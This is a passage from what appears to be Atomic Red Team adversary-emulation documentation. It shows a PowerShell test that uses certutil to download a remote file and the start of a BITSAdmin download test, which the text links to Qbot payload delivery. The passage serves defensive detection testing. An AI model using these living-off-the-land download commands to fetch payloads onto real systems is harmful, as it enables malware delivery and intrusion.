 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | URL of file to copy | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| local_path | Local path to place file | path | Atomic-license.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
$datePath = "certutil-$(Get-Date -format yyyy_MM_dd)"
New-Item -Path $datePath -ItemType Directory
Set-Location $datePath
certutil -verifyctl -split -f #{remote_file}
Get-ChildItem | Where-Object {$_.Name -notlike "*.txt"} | Foreach-Object { Move-Item $_.Name -Destination #{local_path} }
```

#### Cleanup Commands:
```powershell
Remove-Item "certutil-$(Get-Date -format yyyy_MM_dd)" -Force -Recurse -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #9 - Windows - BITSAdmin BITS Download
This test uses BITSAdmin.exe to schedule a BITS job for the download of a file.
This technique is used by Qbot malware to download payloads.

**Supported Platforms:** Windows


**auto_generated_guid:** a1921cd3-9a2d-47d5-a891-f1d0f2a7a31b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| bits_job_name | Name of the created BITS job | string | qcxjb7|
| local_path | Local path to place file | path | %temp%&#92;Atomic-license.txt|
| remote_file | URL of file to copy | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|


#### Attack Commands: Run with `command_prompt`! 
